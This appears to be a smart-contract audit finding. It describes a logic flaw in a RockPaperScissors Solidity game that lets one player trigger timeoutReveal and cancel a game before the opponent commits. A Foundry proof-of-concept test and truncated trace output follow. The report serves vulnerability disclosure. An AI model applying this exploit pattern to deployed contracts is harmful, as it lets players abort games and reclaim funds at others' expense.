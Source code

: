 This is a logic vulnerability: the reveal phase should not be active unless both players have committed moves.

### Impact

* A player can prematurely cancel the game and reclaim funds.
* May be used to abuse matchmaking (exit games at will after inspecting the opponent).
* Leads to unexpected game resolution without actual reveal.

### Proof of Concept

```solidity
function test_StuckInCommitPhase() public {
    address playerA = address(0xA1);
    address playerB = address(0xB2);

    RockPaperScissors game = new RockPaperScissors();
    vm.deal(playerA, 1 ether);
    vm.deal(playerB, 1 ether);

    vm.prank(playerA);
    uint256 gameId = game.createGameWithEth{value: 0.5 ether}(1, 600);

    vm.prank(playerB);
    game.joinGameWithEth{value: 0.5 ether}(gameId);

    bytes32 saltA = keccak256("123salt");
    bytes32 commitA = keccak256(abi.encodePacked(uint8(1), saltA));
    vm.prank(playerA);
    game.commitMove(gameId, commitA);

    // Player B never commits
    vm.warp(block.timestamp + 7 days);

    vm.expectRevert("Cannot timeout yet");
    vm.prank(playerA);
    game.timeoutReveal(gameId); // Unexpectedly succeeds
}
```

### Test output complete:

The trace shows the game was cancelled and both players were refunded, despite only one player committing

```solidity
 forge  test --mt test_StuckInCommitPhase -vvvv
Warning: This is a nightly build of Foundry. It is recommended to use the latest stable version. Visit https://book.getfoundry.sh/announcements for more information. 
To mute this warning set `FOUNDRY_DISABLE_NIGHTLY_WARNING` in your environment. 

[⠢] Compiling...
[⠑] Compiling 1 files with Solc 0.8.20
[⠘] Solc 0.8.20 finished in 16.04s
Compiler run successful!

Ran 1 test for test/RPS_DoSCommitPhase.t.sol:RPS_DoSCommitPhase
[FAIL: next call did not revert as expected] test_StuckInCommitPhase() (gas: 306076)
Traces:
  [2750597] RPS_DoSCommitPhase::setUp()
    ├─ [2701883] → new RockPaperScissors@0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f
    │   ├─ [599683] → new WinningToken@0x104fBc016F4bb334D775a19E8A6510109AC63E00
    │   │   ├─ emit OwnershipTransferred(previousOwner: 0x0000000000000000000000000000000000000000, newOwner: RockPaperScissors: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f])
    │   │   └─ ← [Return] 2541 bytes of code
```